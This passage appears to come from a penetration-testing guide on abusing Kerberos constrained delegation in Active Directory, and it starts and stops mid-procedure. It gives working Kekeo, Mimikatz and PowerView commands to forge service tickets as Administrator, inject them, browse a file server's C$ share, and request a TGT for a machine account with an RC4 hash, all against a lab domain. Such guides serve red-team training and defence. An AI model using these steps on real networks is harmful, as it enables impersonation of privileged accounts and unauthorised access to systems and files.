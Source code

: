 3. Using s4u from Kekeo, we request a TGS as ANY user for the service to which the delegation is enabled, e.g. *FILESERVER*, using the TGT previously obtained:
    
    ```
    # Kekeo
    kekeo# tgs::s4u /tgt:[TGT_USER_ENABLED_DELEGATION] /user:Administrator@CYBERLAB.CYBERCORP.LOCAL /service:cifs/FILESERVER.CYBERLAB.CYBERCORP.LOCAL
    ```
    
4. Using mimikatz, inject the TGS ticket:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL_cifs~FILESERVER.CYBERLAB.CYBERCORP.LOCAL@CYBERLAB.CYBERCORP.LOCAL.kirbi"'
    ```
    
5. Access the file shares of the target:
    
    ```powershell
    ls \\fileserver.cyberlab.cybercorp.local\c$
    ```
    
    Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified.
    

## Constrained delegation allowed for a Machine Account

If you have compromised a machine account or in other words you have SYSTEM level privileges on a machine that is configured with constrained delegation, you can assume any identity in the AD domain and authenticate to services that the compromised machine is trusted to delegate to.

1. List services to which the machine account is trusted to delegate to:
    
    ```powershell
    # PowerView
    Get-NetComputer "COMPUTER1" | select name, msds-allowedtodelegateto, useraccountcontrol | fl
    Get-NetComputer "COMPUTER1" | Select-Object -ExpandProperty msds-allowedtodelegateto | fl
    ```
    
2. Using asktgt from Kekeo, we request a TGT as the abused account (in this case a machine account):
    
    ```
    # Kekeo
    kekeo# tgt::ask /user:cyberlab-adminsrv$ /domain:CYBERLAB.CYBERCORP.LOCAL /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
    ```
    